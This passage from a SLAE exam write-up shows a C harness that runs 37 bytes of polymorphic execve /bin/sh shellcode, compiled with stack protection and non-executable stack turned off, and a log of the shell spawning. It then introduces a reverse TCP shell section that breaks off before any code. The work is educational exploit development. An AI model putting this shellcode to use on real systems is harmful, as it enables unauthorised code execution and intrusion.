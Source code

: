 A C program scripted with the newly generated shellcode:

```c 
/**
* Filename: execve_poly_shellcode.c
* Author: h3ll0clar1c3
* Purpose: Spawn a shell on the local host   
* Compilation: gcc -fno-stack-protector -z execstack -m32 execve_poly_shellcode.c -o execve_poly_final  
* Usage: ./execve_poly_final
* Shellcode size: 37 bytes
* Architecture: x86
**/

#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xd2\x52\xb8\xb7\xd8\x3e\x46\x05\x78\x56\x34\x22\x50\xb8\xde\xc0\xad"
"\xde\x2d\xaf\x5e\x44\x70\x50\x6a\x0b\x58\x89\xd1\x89\xe3\x6a\x01\x5e\xcd\x80";

int main()
{
        printf("Shellcode length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

The C program is compiled as an executable binary with stack-protection disabled, and executed resulting in a shellcode size of 37 bytes:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc -fno-stack-protector -z execstack -m32 execve_poly_shellcode.c -o execve_poly_final
osboxes@osboxes:~/Downloads/SLAE$ ./execve_poly_final 
Shellcode length:  37
$ id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ 
```

The polymorphic version of the shellcode is 32% larger in size compared to the original reference from Shell-Storm.

#### 2nd Shellcode (Reverse TCP Shell)
--------------

A Reverse TCP shell initiates a connection from the target host back to the attacker’s IP address and listening port, executing a <code class="language-plaintext highlighter-rouge">/bin/sh</code> shell on the target host’s machine.

Referenced from Shell-Storm [http://shell-storm.org/shellcode/files/shellcode-849.php] [reversetcp-shellstorm]::


[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment6
[execve-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-811.php
[reversetcp-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-849.php